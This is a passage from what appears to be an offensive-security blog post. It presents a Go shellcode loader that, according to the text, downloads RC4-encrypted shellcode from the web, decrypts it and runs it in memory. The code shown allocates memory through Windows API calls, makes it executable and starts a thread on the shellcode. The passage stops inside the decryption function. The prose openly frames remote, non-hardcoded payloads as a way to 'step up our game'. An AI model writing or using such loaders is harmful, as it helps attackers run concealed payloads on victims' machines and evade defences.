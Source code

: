 ## What if we don't know what our payload is going to be? Like maybe we want a file on the internet we can adjust to our needs spontaneously, or maybe we download the file once a day to get updated payloadz... We could really step up our game and read the encryption key from the internet, so its never hardcoded, but thats for another day. The following is a basic example of a payload download.  

**Let's download the rc4 encrypted shellcode from this blog** 

**sample-3.go: download rc4 encrypted shellcode, decrypt, push to memory.**  

```go  
package main

import (
	"crypto/rc4"
	"fmt"
	"io/ioutil"
	"net/http"
	"syscall"
	"unsafe"
)

var (
	kernel32            = syscall.NewLazyDLL("kernel32.dll")
	ntdll               = syscall.NewLazyDLL("ntdll.dll")
	virtualAlloc        = kernel32.NewProc("VirtualAlloc")
	virtualProtect      = kernel32.NewProc("VirtualProtect")
	createThread        = kernel32.NewProc("CreateThread")
	waitForSingleObject = kernel32.NewProc("WaitForSingleObject")
	rtlMoveMemory       = ntdll.NewProc("RtlMoveMemory")
)

const (
	MEM_COMMIT        = 0x00001000
	MEM_RESERVE       = 0x00002000
	PAGE_READWRITE    = 0x04
	PAGE_EXECUTE_READ = 0x20
	INFINITE          = 0xFFFFFFFF
)

func executeShellcode(shellcode []byte) {
	// Allocate memory for the shellcode
	mem, _, _ := virtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE)

	// Copy the shellcode to the allocated memory
	rtlMoveMemory.Call(mem, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))

	// Change memory protection to executable
	var oldProtect uint32
	virtualProtect.Call(mem, uintptr(len(shellcode)), PAGE_EXECUTE_READ, uintptr(unsafe.Pointer(&oldProtect)))

	// Create a new thread to execute the shellcode
	thread, _, _ := createThread.Call(0, 0, mem, 0, 0, 0)

	// Wait for the thread to finish
	waitForSingleObject.Call(thread, uintptr(INFINITE))
}

func decryptRC4(key, ciphertext []byte) []byte {
	cipher, err := rc4.NewCipher(key)
```